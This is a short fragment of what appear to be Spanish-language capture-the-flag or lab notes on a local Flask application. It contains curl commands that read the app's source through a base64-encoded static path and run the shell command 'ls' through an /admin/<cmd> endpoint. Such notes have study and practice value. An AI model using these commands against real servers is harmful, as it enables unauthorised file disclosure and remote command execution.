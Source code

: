 curl -v --path-as-is 'http://localhost:5000/

Es flask

curl -v --path-as-is 'http://localhost:5000/static/'$(printf app.py | base64)

Tiene path /admin/<cmd>

curl -v --path-as-is 'http://localhost:5000/admin/'$(printf ls | base64)


